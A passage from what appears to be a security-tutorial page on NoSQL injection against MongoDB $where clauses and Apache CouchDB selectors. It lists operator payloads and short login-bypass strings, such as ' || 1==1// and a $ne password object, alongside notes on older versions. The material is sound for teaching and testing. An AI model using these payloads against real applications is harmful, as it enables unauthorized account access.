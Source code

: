 ```json
"$regex": ".*"  // Regular Expression
"$exists": true  // If any record exists
"$gt": "A"  // Greater than
"$lt": "z"  // Less than
```

## $where

MongoDB is a popular NoSQL framework, but sometimes still allows for a string injection like regular SQL Injection. Sometimes your input will end up in a `$where` clause with a condition similar to the following:

```javascript
`return (this.username == '${username}' && this.password == '${password}')`
```

In the same way as SQL Injection, you can make this condition always true by injecting one of the following in the `username` field:

```javascript
' || 1==1//
' || 1==1%00
```

Another simple way to make one statement true without many special characters:

```javascript
'=='
```

For more payloads for the same idea see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#mongodb-payloads).

{% hint style="info" %}
**Note**: While it seems we are injecting into server-side JavaScript code, this language from MongoDB is very restricted and in modern versions does **not** have much use for attackers. However, in **very old** versions it might be possible to get [Remote Code Execution](https://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/) from this
{% endhint %}

## Similar Injections

With these ORM solutions becoming more popular, and developers forgetting it's possible to create object structures in most frameworks with your request, many different databases are vulnerable in a similar way. While NoSQL Injection on MongoDB is the most well-known, the idea of using operators like `$ne` or `$regex` are not exclusive to it, and might exist just with different names. be sure to check out the documentation if you are unsure.&#x20;

### Apache CouchDB

See the [Selector Syntax](https://docs.couchdb.org/en/stable/api/database/find.html#selector-syntax) for a full guide. Anywhere the `$` operators can be used just **like with MongoDB**, there is basically no difference in attacking:

{% code title="Login Bypass" %}
```json
{
  "username": "admin",
  "password": {
    "$ne": "wrong"
  }
}
```
{% endcode %}
